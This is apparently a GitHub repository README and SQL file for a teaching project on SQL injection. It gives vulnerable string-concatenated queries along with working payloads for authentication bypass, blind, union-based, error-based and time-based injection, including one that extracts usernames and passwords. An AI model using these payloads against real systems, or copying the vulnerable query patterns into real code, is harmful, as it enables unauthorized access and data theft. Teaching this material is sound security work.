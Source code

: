 # SQL-Injections

# SQL Injection Project

## Overview
This project is a demonstration of various types of SQL injection attacks and how they can be exploited in web applications. It includes examples of different types of SQL injection vulnerabilities and how they can be mitigated.

## Usage
1. Open your web browser and navigate to `http://localhost:3000` (or the appropriate URL if you've configured it differently).

2. Explore the different sections of the application to see examples of SQL injection vulnerabilities and how they can be exploited.

3. Experiment with different payloads and inputs to understand how SQL injection attacks work.

## Features
- Classic SQL injection examples
- Union-based SQL injection examples
- Blind SQL injection examples
- Error-based SQL injection examples
- Time-based SQL injection examples
- Suggestions for mitigating SQL injection vulnerabilities

## Contributing
Contributions are welcome! If you find any issues or have suggestions for improvements, please open an issue or submit a pull request.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
  


-- 1. Classic SQL Injection:

--Suppose we have a login form where the username and password are concatenated directly into an SQL query without proper validation:
```SELECT * FROM users WHERE username = '$username' AND password = '$password';```

--An attacker could input the following into the username field:
' OR '1'='1

--The resulting SQL query becomes:
```SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '$password';```

-- This would allow the attacker to bypass authentication because the condition '1'='1' is always true.



-- 2. Blind SQL Injection:

--Suppose the application responds differently based on whether a condition is true or false. An attacker could exploit this behavior to extract data.

--or example, the attacker might input:

``` ' AND (SELECT COUNT(*) FROM users WHERE username = 'admin' AND SUBSTRING(password, 1, 1) = 'a') = 1```


-- 3. Union-Based SQL Injection:

``` SELECT * FROM products WHERE category = '$category'; ```
' UNION SELECT username, password FROM users ```

-- If the number of columns matches, this would effectively append the results of the SELECT username, password FROM users query to the original query, potentially leaking sensitive information.


-- 4. Error-Based SQL Injection:

-- Suppose the application generates detailed error messages that reveal information about the database structure:
```SELECT * FROM products WHERE id = $id;```


-- An attacker might input:
```' AND 1=CONVERT(int, (SELECT TOP 1 name FROM sysobjects WHERE xtype='U'))-- ```

-- 5. Time-Based SQL Injection:

-- Suppose the application has a search feature that delays the response if a result is found:

``` SELECT * FROM products WHERE name = '$search_term'; ```

An attacker might input:

``` ' AND IF(SUBSTRING(database(),1,1)='a',SLEEP(5),0) ```

-- If the application delays its response, the attacker can infer that the first character of the database name is 'a'.
